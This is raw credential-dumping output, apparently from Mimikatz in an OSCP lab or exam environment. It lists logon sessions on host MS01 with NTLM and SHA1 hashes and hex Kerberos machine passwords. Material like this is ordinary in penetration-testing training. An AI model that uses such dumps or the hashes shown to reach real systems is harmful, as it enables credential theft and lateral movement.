 ```shell
	 * Password : 67 d8 41 41 68 3d f2 82 90 0f c1 6b 60 53 80 36 f1 d5 9d 17 15 c1 ea 4c 5b de ba 8d e8 14 44 7b 97 b7 bd e4 43 19 c4 13 bc 31 01 f2 74 7f 64 b6 9e 79 d2 af 12 05 b4 d9 2e aa 8b 08 d0 7f 6d 6c 1a 4b 74 b8 e2 04 6e 4e 06 1c 34 5f e6 01 dd 9e 93 ad 53 92 9f 63 8c 81 82 80 c4 34 c6 da be f2 ea 4a 4e 88 84 a9 ee 7f 75 9b 8c 84 89 1d a3 0f 21 19 9c 1f 69 bd e0 ec fc 90 04 04 bb fc b1 03 ce 89 26 27 81 35 0d 11 b4 b7 63 c1 aa 63 41 7d 93 0c be 10 a8 c9 73 cb 1a 14 57 37 fb 14 14 d6 58 33 29 11 5a e9 7b 72 1c cd 7f b8 a4 47 c8 75 ca 44 da 7c fb e3 12 63 b1 2c 36 17 37 a4 e1 07 32 a2 f5 be 95 7d 97 0e c8 8e 45 a7 ac fa 72 4b f4 c6 48 e8 13 60 0e 7a 51 83 fb dd 60 d1 dc d7 ef 77 54 dd 38 8a 2c 28 46 64 37 40 ce 4d ba 02 
	ssp :	
	credman :	
	cloudap :	

Authentication Id : 0 ; 64072 (00000000:0000fa48)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 9/14/2022 9:17:28 PM
SID               : S-1-5-90-0-1
	msv :	
	 [00000003] Primary
	 * Username : MS01$
	 * Domain   : OSCP
	 * NTLM     : b4acfa1e5db9a85466f9d28fd0a8c8f6
	 * SHA1     : 08f25b7d718bb70738a00270542cb9c28df9d2e2
	tspkg :	
	wdigest :	
	 * Username : MS01$
	 * Domain   : OSCP
	 * Password : (null)
	kerberos :	
	 * Username : MS01$
	 * Domain   : oscp.exam
	 * Password : 39 3c 9b d7 81 94 68 be 78 7f 38 49 a8 7f 9a 34 34 af c7 13 4b c1 56 2a 6a 9e 09 5a 03 fa c3 75 d9 5c 74 91 79 6f 25 1a 49 b0 74 b4 97 05 67 d5 91 ca c1 6d 1c 50 f9 02 97 13 f8 49 5e 99 1e e8 9b 86 ec e5 76 a6 60 4b 63 c1 4a 7e e4 6a ac 4a db 1b c7 c1 58 99 5f a2 10 82 c2 8b 21 07 58 87 c8 c9 47 89 88 7c 0b 1a 24 06 7f b3 e9 ff f1 51 4a de 44 e3 e9 d7 37 84 f8 43 28 6b 30 7b f3 35 99 10 ab df 8a 89 b6 db bc ac ad 44 3b ea 74 b8 3d 13 bd ac 0c 74 0f b4 52 8d cc 66 a6 96 8d 79 b7 ee 40 1d 97 c0 60 24 56 14 67 e4 27 2b 13 4a b9 8e 35 1d 07 a0 b9 e6 a9 2e 2f 4f ec c6 dc c3 f6 26 d8 2f d8 da ee e5 42 17 1e b3 35 c3 c0 45 0d c6 87 b2 ba e3 90 fa 55 69 31 c8 b8 e0 ef 1d 08 13 e0 c3 b9 11 ec 5a 20 38 8d f8 e6 6d cf a9 
	ssp :	
	credman :	
	cloudap :	

Authentication Id : 0 ; 62244 (00000000:0000f324)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 9/14/2022 9:17:28 PM
SID               : S-1-5-96-0-1
	msv :	
	 [00000003] Primary
	 * Username : MS01$
	 * Domain   : OSCP
	 * NTLM     : b4acfa1e5db9a85466f9d28fd0a8c8f6
	 * SHA1     : 08f25b7d718bb70738a00270542cb9c28df9d2e2
	tspkg :	
	wdigest :	
	 * Username : MS01$
	 * Domain   : OSCP
	 * Password : (null)
```